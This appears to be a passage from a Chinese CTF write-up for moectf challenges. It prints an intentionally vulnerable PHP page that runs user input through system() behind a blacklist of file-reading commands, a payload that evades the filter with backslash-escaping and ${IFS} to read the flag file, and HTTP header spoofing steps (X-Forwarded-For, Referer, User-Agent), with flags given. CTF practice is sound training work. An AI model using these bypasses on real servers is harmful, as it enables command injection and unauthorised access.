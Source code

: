 7. baberce

   ``` php
   <?php
   
   $rce = $_GET['rce'];
   if (isset($rce)) {
       if (!preg_match("/cat|more|less|head|tac|tail|nl|od|vi|vim|sort|flag| |\;|[0-9]|\*|\`|\%|\>|\<|\'|\"/i", $rce)) {
           system($rce);
       }else {
           echo "hhhhhhacker!!!"."\n";
       }
   } else {
       highlight_file(__FILE__);
   }
   ```

   playload:?rce=c\at${IFS}f\lag.php

   flagmoectf{Do_y0u_l1k3_Rcccccccccccccce?}

8. Do you know HTTP?

   > 检查一下你的学习成果吧
   >
   > 仅仅学习了HTTP请求头相关内容，你可能会发现浏览器已经不足以让你便利的去解决问题了，试试burpsuite！

  抓包！

    1. 用HS请求 改POST为HS
       2. 用本地ip地址才能访问：X-Forwarded-For:127.0.0.1
       3. “我希望你是从'www.ltyyds.com'过来的：伪造来源网址
       4. 浏览器是LT,改！user-agent
       5. 出flag！moectf{HTTPHeaders_1s_s0_ea5y!}

## 问卷题

你看现在哪里还有烂分啊，全都是问卷题的烂分，你嫌烂我还嫌烂呢（